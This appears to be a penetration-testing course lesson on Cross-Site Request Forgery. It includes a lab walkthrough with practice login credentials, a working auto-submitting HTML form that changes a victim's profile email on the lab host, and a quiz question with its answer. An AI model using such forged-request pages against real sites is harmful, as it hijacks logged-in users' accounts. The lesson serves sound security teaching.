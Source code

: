 # Cross-Site Request Forgery (CSRF or XSRF)

Cross-site requests are common in web applications and are used for multiple legitimate purposes.

Cross-Site Request Forgery (CSRF or XSRF) is an attack that forces an end-user to execute inadvertent actions on a web application in which they are currently authenticated. This attack is usually mounted with the help of attacker-crafted web pages that the victim must visit or interact with, leveraging the lack of anti-CSRF security mechanisms. These web pages contain malicious requests that essentially inherit the identity and privileges of the victim to perform an undesired function on the victim's behalf. CSRF attacks generally target functions that cause a state change on the server but can also be used to access sensitive data.

A successful CSRF attack can compromise end-user data and operations when it targets a regular user. If the targeted end-user is an administrative one, a CSRF attack can compromise the entire web application.

During CSRF attacks, the attacker does not need to read the server's response to the malicious cross-site request. This means that [Same-Origin Policy](https://developer.mozilla.org/en-US/docs/Web/Security/Same-origin\_policy) cannot be considered a security mechanism against CSRF attacks.

**Reminder**: According to Mozilla, the same-origin policy is a critical security mechanism that restricts how a document or script loaded by one origin can interact with a resource from another origin. The same-origin policy will not allow an attacker to read the server's response to a malicious cross-site request.

A web application is vulnerable to CSRF attacks when:

* All the parameters required for the targeted request can be determined or guessed by the attacker
* The application's session management is solely based on HTTP cookies, which are automatically included in browser requests

To successfully exploit a CSRF vulnerability, we need:

* To craft a malicious web page that will issue a valid (cross-site) request impersonating the victim
* The victim to be logged into the application at the time when the malicious cross-site request is issued

In your web application penetration testing or bug bounty hunting endeavors, you will notice a lot of applications that feature no anti-CSRF protections or anti-CSRF protections that can be easily bypassed.

We will focus on evading anti-CSRF protections in the following sections.

***

### Cross-Site Request Forgery Example

Proceed to the end of this section and click on `Click here to spawn the target system!` or the `Reset Target`. Use the provided Pwnbox or a local VM with the supplied VPN key to reach the target application and follow along. Don't forget to configure the specified vhost (`xss.htb.net`) to access the application.

Navigate to `http://xss.htb.net` and log in to the application using the credentials below:

* Email: crazygorilla983
* Password: pisces

This is an account that we created to look at the functionality of the application.

Run Burp Suite as follows.

Cross-Site Request Forgery (CSRF or XSRF)

```shell-session
AIceBear@htb[/htb]$ burpsuite
```

Activate burp suite's proxy (_Intercept On_) and configure your browser to go through it.

Now, click on "Save."

You should see the below.

![image](https://academy.hackthebox.com/storage/modules/153/28.png)

We notice no anti-CSRF token in the update-profile request. Let's try executing a CSRF attack against our account (Ela Stienen) that will change her profile details by simply visiting another website (while logged in to the target application).

First, create and serve the below HTML page. Save it as `notmalicious.html`

Code: html

```html
<html>
  <body>
    <form id="submitMe" action="http://xss.htb.net/api/update-profile" method="POST">
      <input type="hidden" name="email" value="attacker@htb.net" />
      <input type="hidden" name="telephone" value="&#40;227&#41;&#45;750&#45;8112" />
      <input type="hidden" name="country" value="CSRF_POC" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.getElementById("submitMe").submit()
    </script>
  </body>
</html>
```

If you are wondering how we ended up with the above form, please see the image below. ![image](https://academy.hackthebox.com/storage/modules/153/29.png)

We can serve the page above from our attacking machine as follows.

Cross-Site Request Forgery (CSRF or XSRF)

```shell-session
AIceBear@htb[/htb]$ python -m http.server 1337
Serving HTTP on 0.0.0.0 port 1337 (http://0.0.0.0:1337/) ...
```

No need for a proxy at this time, so don't make your browser go through Burp Suite. Restore the browser's original proxy settings.

While still logged in as Ela Stienen, open a new tab and visit the page you are serving from your attacking machine `http://<VPN/TUN Adapter IP>:1337/notmalicious.html`. You will notice that Ela Stienen's profile details will change to the ones we specified in the HTML page we are serving.

![image](https://academy.hackthebox.com/storage/modules/153/30.png)

Our assumption that there is no CSRF protection in the application was correct. We were able to change Ela Stienen's profile details via a cross-site request.

We can now use the malicious web page we crafted to execute CSRF attacks against other users.

Next, we will cover how we can attack applications that feature anti-CSRF mechanisms.

**Questions**

If the update-profile request was GET-based and no anti-CSRF protections existed, would you still be able to update Ela Stienen's profile through CSRF? Answer format: Yes or No

```
Yes
```

